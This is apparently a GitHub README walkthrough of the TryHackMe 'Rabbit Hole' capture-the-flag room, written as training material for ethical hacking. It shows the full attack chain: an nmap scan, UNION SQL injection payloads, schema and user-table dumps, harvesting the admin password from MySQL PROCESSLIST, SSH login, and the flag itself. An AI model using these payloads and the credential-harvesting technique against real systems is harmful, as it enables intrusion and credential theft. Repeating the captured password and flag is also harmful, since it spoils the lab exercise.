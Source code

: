 # TryHackMe: Rabbit Hole Walkthrough — Full Exploit & Capture-the-Flag Guide

## 🔍 Challenge Overview

**Platform:** TryHackMe
**Room Name:** Rabbit Hole
**Category:** Web Exploitation, SQL Injection, Enumeration, Processlist Abuse
**Difficulty:** Intermediate

<!--
Keywords: tryhackme rabbit hole writeup, second-order sqli, processlist mysql exploit, ssh login sql injection, sql injection challenge solution, CTF walkthrough rabbit hole, information_schema processlist attack, MySQL md5 password capture, ethical hacking SQLi lab
-->

> This is a complete, step-by-step walkthrough to solve the "Rabbit Hole" room on TryHackMe. It includes command-line tools, Python automation scripts, payloads, and final shell access to capture the flag.

---

## 🛠 Step 1: Initial Reconnaissance

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.173.12
```

**Discovered Open Ports:**

```
22/tcp (SSH)
80/tcp (HTTP)
```

Visit:

```
http://10.10.173.12
```

Identified login/register form and "Last Logins" feature reflecting usernames (possible injection point).

---

## 🧪 Step 2: SQL Injection Detection

Test Payload:

```sql
' UNION SELECT 1;--
```

**Error Response:** Column mismatch confirms SQL injection is possible.

Working Payload:

```sql
' UNION SELECT 1,2;--
```

This confirms 2 columns are expected.

---

## 🧬 Step 3: Extract Database Names

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(schema_name) FROM information_schema.schemata'
```

**Result:**

```
information_schema,web
```

---

## 🗂 Step 4: Extract Table Names from `web`

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema="web"'
```

**Tables Found:**

```
users,logins
```

---

## 🧱 Step 5: Extract Columns from `users`

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema="web" AND table_name="users"'
```

**Columns:**

```
id,username,password,group
```

---

## 🔐 Step 6: Dump User Data

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(id,":",username,":",password,":",`group` SEPARATOR "\n") FROM web.users WHERE id<4'
```

**Dumped:**

```
1:admin:0e3ab8...:admin
2:foo:abc123:user
3:bar:iloveyou:user
```

---

## 👁️ Step 7: Monitor `PROCESSLIST` for Admin Password

Repeatedly run:

```bash
python3 processlist_extractor.py 'http://10.10.173.12/' 'SELECT INFO_BINARY FROM information_schema.PROCESSLIST WHERE INFO_BINARY NOT LIKE "%INFO_BINARY%" LIMIT 1'
```

**Target Output Example:**

```sql
SELECT * FROM users WHERE username='admin' AND password=md5('fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q')
```

Extract the cleartext password inside the `md5()` function.

---

## 💻 Step 8: SSH Login as Admin

```bash
ssh admin@10.10.173.12
```

**Password:**

```
fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q
```

---

## 🏁 Step 9: Capture the Flag

```bash
ls
cat flag.txt
```

**Flag:**

```
THM{this_is_the_way_step_inside_jNu8uJ9tvKfH1n48}
```

---

## 🧰 Tools & Techniques Used

* `nmap`, `curl`, `Burp Suite`
* Manual SQL injection testing
* `information_schema` enumeration
* MySQL `PROCESSLIST` query leakage
* Python scripting (`requests`, `bs4`)

---

## 📁 Included Scripts

### `sqli_automation.py`

### `sqli_automate2.py`

Automates 16-character chunked SQL data extraction using SUBSTR.

### `processlist_extractor.py`

Multi-threaded script to capture live SQL queries from MySQL `information_schema.processlist`.

---

## ✍️ Writeup by: Mohsin Arif

**GitHub:** [https://github.com/mhsn1](https://github.com/mhsn1)
**TryHackMe:** [https://tryhackme.com/p/mhsn1](https://tryhackme.com/p/mhsn1)

**Keywords:** tryhackme rabbit hole writeup, mysql processlist exploit, second-order sql injection, ethical hacking walkthrough, capture the flag sql injection, offensive enumeration tutorial
